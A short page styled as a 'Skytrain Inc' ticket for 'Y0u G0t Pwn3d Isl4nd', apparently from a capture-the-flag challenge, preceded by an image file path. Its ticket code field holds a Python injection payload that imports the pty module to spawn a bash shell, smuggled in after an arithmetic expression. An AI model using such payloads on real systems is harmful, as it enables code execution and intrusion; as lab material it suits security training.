 # Skytrain Inc

## Ticket to Y0u G0t Pwn3d Isl4nd

**Ticket Code:**
**32+0+**import**('pty').spawn('/bin/bash')**
##Issued: 2021/08/10
#End Ticket
